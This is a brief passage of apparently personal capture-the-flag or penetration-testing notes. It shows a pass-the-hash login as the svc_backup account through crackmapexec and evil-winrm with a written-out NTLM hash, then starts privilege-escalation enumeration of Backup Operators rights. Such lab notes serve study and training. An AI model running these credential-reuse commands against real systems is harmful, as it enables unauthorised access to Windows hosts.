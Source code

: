 check hash and connect, correct hash.

got shell

```bash
# winrm 
crackmapexec winrm $tip -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
evil-winrm -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d -i $tip

```



# Privesc



## local enum

check user svc_backup

> member of Backup Operators group
>
> SeBackupPrivileg enabled.

```bash
whoami /all
```
